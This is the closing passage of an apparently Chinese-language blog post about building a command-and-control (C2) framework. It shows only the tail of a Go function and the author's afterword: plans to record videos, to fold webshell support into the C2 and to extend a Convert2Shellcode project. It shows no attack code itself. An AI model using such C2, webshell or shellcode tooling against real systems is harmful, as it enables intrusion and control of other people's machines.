      
    return nil  
}
```

至此，所有代码编写完成，难掩兴奋与激动，开始见证奇迹的一刻！



# 下一步计划

写到这里真的有点神志不清，可以看到后面我真的写的不耐烦了，到这里终于是写完了这篇又臭又长的文章了。每当写到文章的末尾总是头昏脑涨，写文章真是一件特别痛苦的事，尤其是长文。

可以看到我在文章中贴出文章的源码，看起来很繁琐实际也很繁琐但这是有必要的，因为这样就可以根据每一章节一步步构建出C2，这种方式是我学习一个陌生项目的基本做法。还有文章中并没有对代码做详细的解释，各位师傅可以用AI来辅助阅读。

考虑到文章呈现内容的局限性不能完整的体现开发过程，所以想录几个视频玩一玩ヾ(≧▽≦\*)o

我承诺**不开班，不收费，不搞圈子，纯粹的技术分享**，可能是我不在这个圈子才敢这么做，所以求个**点赞、收藏加关注**不过分吧？(◍•ᴗ•◍)。

由于是社畜且不在安全领域，所以几个月或者几年开始录视频？反正这段时间好好休息一下，一个人的经历总是有限的，我又能拼搏几次呢？做出c2后我还想将webshell融入其中，正好web安全是我的薄弱项，借此机会学习一下，但这也是遥远未来之后的事了。

相信看过这篇文章之后，想必各位师傅对C2框架搭建是很熟悉了，这样就可以去github上找开源的C2的源码，最好是可以调式运行的，然后慢慢熟悉工作流程，最后积累自己的开发C2框架的经验。

**下一步计划就是没有计划**٩( ╹▿╹ )۶，随缘更新文章，内容随机，还有Convert2Shellcode项目开始修复我老早就提出的问题，然后编写支持x86架构的代码，也请各位师傅多多支持一下。

**最后的最后要说的一点就是最近在弄一个新博客，也算是新的开始，期待与各位师傅交互友链**！
